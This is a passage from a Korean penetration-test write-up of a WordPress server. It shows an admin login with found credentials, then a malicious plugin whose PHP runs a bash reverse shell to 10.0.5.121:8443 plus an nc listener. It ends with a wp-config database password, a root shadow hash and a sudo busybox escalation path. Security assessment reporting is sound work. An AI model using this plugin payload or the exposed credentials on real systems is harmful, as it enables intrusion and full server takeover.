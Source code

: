   - ![엑셀파일열기](../../images/2025-08-22-보고서/image-19.png)
- 획득한 계정 정보(`admin:NoM0r3BruteF0rc3#@#`) 로 wordpress 관리자 페이지 로그인에 성공했다.
  - <img src="../../images/2025-08-22-보고서/image-24.png" alt="wordpress관리자페이지" style="zoom: 67%;" />

---

초기 침투

- 이후 초기 침투를 위해 wordpress 관리자 페이지에서 리버스쉘을 연결하는 악성 플러그인 설치한 뒤 점검자의 칼리에서 리버스쉘 연결하는 포트를 열어 `www-data` 유저의 쉘을 얻는 데 성공했다.

```
# vim reverse_plugin.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.5.121/8443 0>&1'"); ?>
------------------------------------
# zip
zip reverse_plugin.zip reverse_plugin.php
------------------------------------
# Upload
Wordpress > Plugins > Add New > Upload Plugin -> Activate Plugin

# 점검자 칼리
nc -lnvp 8443
```

  - <img src="../../images/2025-08-22-보고서/image-20.png" alt="낮은 권한 유저" style="zoom:67%;" />

- 정보 수집을 이어가던 중 `/var/html/blog/wp-config.php` 파일에서 데이터베이스 계정 정보 획득 했다 - `wordpressuser:P@sswordz3#`
  - <img src="../../images/2025-08-22-보고서/image-21.png" alt="wp-config" style="zoom:50%;" />



---

### 권한 상승

- 권한 상승을 위해 자동화된 정보 수집 툴인 `linpeas` 이용하여 정보 수집을 이어갔다. 루트의 shadow, passwd 파일 정보와 `sudo -l`에 `(ALL) NOPASSWD` 권한이 부여되어있는 바이너리를 발견했다.
  linpeas

```
# linpeas: /etc/shadow
╣ Can I read shadow files? ............. root:$y$j9T$oZhlXFTcH84ew/3GwwYvZ1$063DG6RbDw2RFb6I8xh0AFt.4zk/lteqrzmUNvtTl.6:19694:0:99999:7:::

# /etc/passwd
root:x:0:0:root:/root:/bin/bash

# linpeas: sudo -l
══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[ . . . ]                                                                                                                      
User www-data may run the following commands on dmz-prod-rrblog01:                                                                                   
    (ALL) NOPASSWD: /bin/busybox    
```
